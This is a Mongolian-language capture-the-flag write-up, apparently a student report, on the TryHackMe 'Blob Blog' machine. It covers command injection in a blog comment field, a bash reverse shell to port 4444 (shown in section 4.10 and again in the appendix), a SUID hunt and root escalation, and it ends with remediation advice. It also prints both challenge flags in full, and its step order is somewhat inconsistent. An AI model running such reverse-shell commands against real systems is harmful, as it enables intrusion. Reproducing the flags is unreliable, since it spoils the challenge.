


Амжилттай нэвтэрсний дараа `/blog` хуудас руу шилжсэн. Уг хуудсанд сэтгэгдэл (review) үлдээх боломжтой байсан бөгөөд "The latest review can be found here!" гэсэн линкээр дамжуулан `/review` хуудас руу шилжих боломжтой байв.


`/review` хуудас руу ороход `app.py`, `__pycache__`, `templates` гэсэн директорууд харагдаж байсан нь энэ хэсэгт эмзэг байдал (магадгүй Server-Side Template Injection эсвэл Command Injection) байгааг илтгэж байв.


## 4.10. Командын injection ашиглан Reverse Shell авах

`/blog` хуудасны сэтгэгдэл үлдээх хэсэгт системийн команд ажиллуулах боломжтой эмзэг байдал байсныг ашиглан Kali Linux руу reverse shell холболт үүсгэсэн. Сэтгэгдлийн хэсэгт дараах bash командыг оруулсан:

```bash
bash -i >& /dev/tcp/192.168.196.54/4444 0>&1
```



Үүний өмнө Kali Linux дээр `nc -lvnp 4444` ажиллуулж холболт хүлээж байсан.



Үр дүнд нь `www-data` хэрэглэгчийн эрхээр reverse shell холболт амжилттай үүссэн.



## 4.11. Хэрэглэгчийн эрхээр системд нэвтрэх болон User Flag авах

`www-data` эрхээр нэвтэрсний дараа системийн бүтцийг судалж, хэрэглэгчдийн жагсаалтыг харсан.

```bash
cd /home
ls
```



`/home/bob` директор руу шилжиж, тэндээс `user.txt` файлыг хайж олсон.

```bash
cd /home/bobloblaw/Desktop
ls
cat user.txt
```

Үр дүнд дараах User Flag гарсан.

```text
THM{C0NGR4t$_g3++ing_this_fur}
```



## 4.12. Эрхийн түвшин ахиулах боломжийг шинжлэх

User Flag авсны дараа зорилтот системийн эрхийн тохиргоог судалж, Root эрх авах боломжийг илрүүлэх зорилгоор SUID тохиргоотой файлуудыг хайсан.

```bash
find / -perm -4000 2>/dev/null
```

Үр дүнд `/usr/bin/blogFeedback` нэртэй файл илэрсэн.



Уг програмыг ажиллуулж үзэхэд:

```bash
/usr/bin/blogFeedback
```

`Order my blogs!` гэсэн мессеж гарч, аргумент шаардсан. `1 2 3 4 5 6` гэж оруулахад `Hmm... I disagree!` гэсэн хариу өгсөн.



Энэ нь уг программ SUID тохиргоотой бөгөөд тодорхой нөхцөлд системийн команд ажиллуулдаг (магадгүй `system()` функц ашигласан) болохыг харуулсан.

## 4.13. Root эрх авах ажиллагааг дуусгах

`blogFeedback` програмын SUID эрхийг ашиглан root эрх авахын тулд Write-up-д заасан аргаар үйлдлийг гүйцэтгэсэн. Уг програмын дуудаж буй файл эсвэл командыг өөрийн бэлтгэсэн скриптээр сольж, root эрхтэйгээр ажиллуулсан.

Эцэст нь Kali Linux дээр дахин `nc -lvnp 4444` ажиллуулж, root эрхтэй reverse shell холболт үүсгэсэн.

Холболт үүссэний дараа:

```bash
whoami
```

Үр дүн:

```text
root
```

Root хэрэглэгчийн директор руу шилжиж, Root Flag файлыг уншсан:

```bash
cd /root
ls
cat root.txt
```

Үр дүн:

```text
THM{G00D_J0B_G3++1NG+H3R3!}
```


#  ИЛРҮҮЛСЭН ЭМЗЭГ БАЙДАЛ, АЮУЛГҮЙ БАЙДЛЫН СУЛ ТАЛУУД

Даалгаврын явцад дараах аюулгүй байдлын сул талууд илэрсэн.

**HTML Source Code дотор нууц мэдээлэл хадгалсан**

Вэб хуудасны HTML comment дотор хэрэглэгчийн нууц үгтэй холбоотой мэдээлэл байршуулсан байсан. HTML comment нь хэрэглэгчдэд шууд харагдахгүй боловч source code үзэх боломжтой тул нууц мэдээлэл алдагдах эрсдэлтэй.

** Мэдээлэл задруулах**

Вэб серверийн эх код болон нийтэд харагдах файлуудад хэрэглэгчийн нэр, нууц мэдээлэл, тусгай замтай холбоотой мэдээлэл үлдсэн байсан. Энэ нь халдагчид системийн талаар нэмэлт мэдээлэл цуглуулах боломж олгодог.

**Port Knocking механизмаас хамаарах хамгаалалт**

Сүлжээний портыг тодорхой дарааллаар нээх механизм ашигласан байсан. Энэ нь нэмэлт хамгаалалт боловч дангаараа системийн аюулгүй байдлыг бүрэн хангахгүй.

** Веб програмын Command Injection**

8080 порт дээр ажиллаж буй блог системийн сэтгэгдэл үлдээх хэсэгт хэрэглэгчийн оруулсан мэдээллийг шалгахгүйгээр системийн команд болгон ажиллуулж байсан. Ингэснээр `www-data` хэрэглэгчийн эрхээр алсын командын орчин (Reverse Shell) үүсгэх боломжтой болсон.

** SUID програмын эрсдэл**

`/usr/bin/blogFeedback` файлд SUID тохиргоо байсан. Уг програм нь гаднын командыг дуудаж ажиллуулдаг тул хэрэглэгч үүнийг ашиглан эрхийн түвшинг Root хүртэл ахиулах боломжтой болсон.

**Файл болон директорын зөвшөөрлийн тохиргоо**

Системийн файл болон програмын зөвшөөрлийг хамгийн бага шаардлагатай эрхийн зарчмаар тохируулаагүй нь Root шатны ажиллагааг хөнгөвчилсөн.

# АЮУЛГҮЙ БАЙДЛЫГ САЙЖРУУЛАХ САНАЛ

1. Нууц үг, API түлхүүр болон бусад нууц мэдээллийг HTML source code, comment болон нийтэд нээлттэй файлд хадгалахгүй байх.
2. Вэб програмын оролтын утгыг сайтар шалгаж, системийн команд руу шууд дамжуулахгүй байх (Command Injection-оос хамгаалах).
3. Apache-ийн `server-status` зэрэг удирдлагын мэдээллийг зөвшөөрөгдсөн IP хаяг эсвэл хэрэглэгчээр хязгаарлах.
4. SUID тохиргоотой програмуудыг тогтмол шалгаж, шаардлагагүй SUID эрхийг цуцлах. Ялангуяа `system()` функц дууддаг програмуудад онцгой анхаарах.
5. Linux системийн файл болон директорын зөвшөөрлийг хамгийн бага эрхийн зарчмаар тохируулах.
6. Хэрэглэгчийн нууц үгийг хүчтэй, давтагдашгүй байдлаар үүсгэж, найдвартай Hash алгоритмаар хадгалах.
7. Системийн үйл ажиллагаа, хэрэглэгчийн нэвтрэлт болон эрхийн өөрчлөлтийг тогтмол бүртгэж хянах.
8. Шаардлагагүй сүлжээний портуудыг хааж, firewall дүрмийг зөв тохируулах.

# ДҮГНЭЛТ

Энэхүү даалгаврын ажлаар TryHackMe платформын The Blob Blog Boot-to-Root машиныг шинжилж, зорилтот Linux системд хэрэглэгчийн эрхээр нэвтрэхээс эхлээд Root эрх авах хүртэлх ажиллагааг амжилттай гүйцэтгэлээ.

Ажлын эхний шатанд Nmap ашиглан FTP үйлчилгээний 21-р портын төлөвийг шалгаж, `filtered` байгааг тодорхойлсон. Үүний дараа Dirsearch ашиглан веб серверийн нийтэд харагдах директор болон файлуудыг илрүүлж, HTML source code-ийг судалснаар нууц мэдээлэлтэй холбоотой тайлбарыг олсон.

Дараагийн шатанд кодчилсон мэдээлэл болон Port Knocking механизмыг судалж, системд `bobloblaw` хэрэглэгчийн эрхээр нэвтэрсэн. Хэрэглэгчийн Desktop директороос User Flag-ийг амжилттай авч, системийн файл, директор болон SUID програмын зөвшөөрлийг шалгасан.

Эцсийн шатанд 8080 порт дээрх веб програмын Command Injection эмзэг байдлыг ашиглан `www-data` эрхээр reverse shell авч, улмаар `/usr/bin/blogFeedback` програмын SUID болон командын injection алдааг ашиглан Root эрхэд хүрсэн.

Энэхүү ажлын үр дүнд веб серверийн мэдээлэл задруулах, HTML source code дотор нууц мэдээлэл үлдээх, Command Injection, Linux системийн SUID болон файл, директорын зөвшөөрлийн буруу тохиргоо зэрэг нь системийн аюулгүй байдалд хэрхэн эрсдэл учруулж болохыг практик байдлаар судалж мэдсэн.

Мөн нэвтрэлтийн тестийн ажиллагаа нь зөвхөн нэг эмзэг байдлыг илрүүлэхээс бүрдэхгүй бөгөөд мэдээлэл цуглуулах, үйлчилгээ илрүүлэх, хэрэглэгчийн эрх авах, системийн зөвшөөрлийг шинжлэх болон эрхийн түвшин ахиулах зэрэг олон үе шаттай процесс болохыг ойлгосон.

Ингэснээр The Blob Blog машины User болон Root түвшний зорилтуудыг амжилттай биелүүлж, Linux системийн аюулгүй байдлын шинжилгээ болон нэвтрэлтийн тестийн практик мэдлэгээ нэмэгдүүлсэн.

---

# ХАВСРАЛТ А. АЖЛЫН ЯВЦАД АШИГЛАСАН ҮНДСЭН КОМАНДУУД

| Команд | Зориулалт |
|---|---|
| `ip a` | Сүлжээний интерфэйс шалгах |
| `sudo nmap -p21 --script ftp-anon 10.112.171.105` | FTP Anonymous шалгах |
| `sudo nmap -Pn -p- --min-rate 2000 10.112.171.105` | Бүх порт скан хийх |
| `ftp 10.112.171.105` | FTP холболт турших |
| `dirsearch -u http://10.112.171.105` | Веб директор илрүүлэх |
| `view-source:http://10.112.171.105/` | HTML эх код шалгах |
| `steghide extract -sf cool.jpeg` | Зураг доторх мэдээлэл гаргах |
| `knock 10.112.171.105 1 3 5` | Port Knocking |
| `cat out.txt` | Файлын агуулга унших |
| `bash -i >& /dev/tcp/192.168.196.54/4444 0>&1` | Reverse shell үүсгэх |
| `rlwrap nc -lvnp 4444` | Холболт хүлээн авах |
| `find / -perm -4000 2>/dev/null` | SUID файл хайх |
| `whoami` | Одоогийн хэрэглэгч тодорхойлох |
| `cat user.txt` | User Flag унших |
| `cat /root/root.txt` | Root Flag унших |

